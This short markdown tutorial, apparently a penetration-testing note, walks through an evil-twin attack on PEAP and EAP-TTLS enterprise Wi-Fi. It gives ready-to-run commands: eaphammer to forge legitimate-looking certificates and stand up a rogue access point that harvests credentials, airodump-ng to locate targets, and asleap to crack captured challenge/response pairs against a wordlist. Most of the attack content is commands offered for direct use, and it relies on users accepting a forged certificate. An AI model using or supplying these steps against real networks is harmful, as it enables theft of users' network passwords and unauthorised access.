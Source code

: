 ```yaml
---
title: PEAP/EAP-TTLS
---
```


## What is this about?
Going for a 2 for one here since the attack is basically the same...

## So what are we doing today?
We're pulling out the big guns and aiming for the passwords in an EvilTwin scenario. But since this is somewhat a get framework and run options, I'll keep it short.

### The Setup
Install [EAPHammer](https://github.com/s0lst1c3/eaphammer). Read the docs too because there are multiple setups and attacks you can setup and run on this. This will be the most basic example only...

Generate certificates that look legit to a human with
```
./eaphammer --cert-wizard
```
Find your target with
```
airodump-ng mon0
```
Then adapt the bssid, essid and channel and and run the following line
```
./eaphammer --bssid 00:11:22:33:44:55 --essid potato-wifi --channel 2 --wpa 2 --auth wpa-eap --interface wlan0 --creds
```
Hope that a user will click *YES* when your certificate pops on the screen.
If you're attacking an EAP-TTLS, you're pretty much done here...

For PEAP, you just need to wait for usernames/challenges/responses to come to you ;)

#### PEAP Getting the password
You can add the *--autocrack* option to eaphammer and send it to your cracking rig, but where's the fun in that eh?

Get [asleap](https://github.com/joswr1ght/asleap), build it and run it.
```
asleap –C <challenge> -R <response> -W <wordlist>
```
Done!